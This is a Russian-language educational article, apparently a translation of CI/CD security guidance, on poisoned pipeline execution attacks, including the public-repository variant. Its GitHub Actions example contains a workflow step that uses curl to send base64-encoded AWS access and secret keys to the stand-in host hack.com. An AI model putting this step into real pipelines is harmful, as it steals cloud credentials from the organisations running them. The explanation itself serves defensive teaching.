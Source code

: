 **Public-PPE** (3PE): Для реализации атаки PPE требуется доступ к хранилищу, в котором находится конфигурационный файл трубопровода, или к файлам, на которые он ссылается. В большинстве случаев разрешение на это дается членам организации - в основном инженерам. Поэтому для осуществления прямой или косвенной атаки PPE злоумышленники, как правило, должны обладать правами инженера на доступ к хранилищу.

Однако в некоторых случаях отравление конвейеров CI доступно анонимным злоумышленникам в Интернете: Публичные репозитории (например, проекты с открытым исходным кодом) часто позволяют любому пользователю вносить свой вклад - обычно путем создания pull request'ов, предлагая изменения в коде. Такие проекты обычно автоматически тестируются и собираются с помощью CI-решений, аналогично частным проектам.

Если в CI-конвейер публичного репозитория запускается непроверенный код, предложенный анонимными пользователями, он становится уязвимым для атаки Public PPE, или сокращенно - 3PE. Это также приводит к раскрытию внутренних активов, например секретов частных проектов, в тех случаях, когда конвейер уязвимого публичного репозитория работает на том же экземпляре CI, что и частные проекты.

## Примеры

<ins>Пример 1: Кража учетных данных через Direct-PPE (GitHub Actions)</ins>

В следующем примере репозиторий GitHub связан с рабочим процессом GitHub Actions, который получает код, собирает его, выполняет тесты и в конечном итоге деплоит артефакты на AWS.

Когда в удаленную ветку репозитория выкладывается новый код, он, включая файл конфигурации конвейера, извлекается исполнителем (узлом рабочего процесса).

```yaml
name: PIPELINE
on: push
jobs:
 build:
   runs-on: ubuntu-latest
   steps:
     - run: |
         echo "building..."
         echo "testing..."
         echo "deploying..."
```

![ee587e136d9fd170ede42cfd65d55ffc.png](../../_resources/ee587e136d9fd170ede42cfd65d55ffc.png)
В этом сценарии атака D-PPE будет осуществляться следующим образом:
Злоумышленник создает в репозитории новую удаленную ветку, в которой обновляет файл конфигурации конвейера с помощью вредоносных команд, предназначенных для получения доступа к учетным данным AWS, привязанным к организации GitHub, и последующей их отправки на удаленный сервер.

```yaml
name: PIPELINE
on: push
jobs:
 build:
   runs-on: ubuntu-latest
   steps:
     - env:
         ACCESS_KEY: $
         SECRET_KEY: $

       run: |
         curl -d creds="$(echo $ACCESS_KEY:$SECRET_KEY | base64 | base64)" hack.com
```
